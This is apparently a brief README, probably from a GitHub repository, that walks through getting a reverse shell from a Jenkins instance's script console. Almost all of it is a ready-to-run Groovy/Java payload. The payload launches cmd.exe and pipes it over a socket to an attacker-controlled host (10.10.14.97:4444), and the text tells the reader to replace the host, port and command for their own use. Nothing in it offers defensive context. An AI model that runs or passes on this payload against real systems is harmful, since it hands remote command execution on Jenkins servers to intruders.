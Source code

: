 ### Requirements: Access to the script console in Jenkins instance

#### 1) In  Jenkins dashboard, go to: Manage Jenkins -> Script console

#### 2) Setup Listener

#### 3) Run this payload from the console:

    String host="10.10.14.97";int port=4444;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

### TIP: Don't forget to replace the host, port and cmd variables depending on use case!!!!
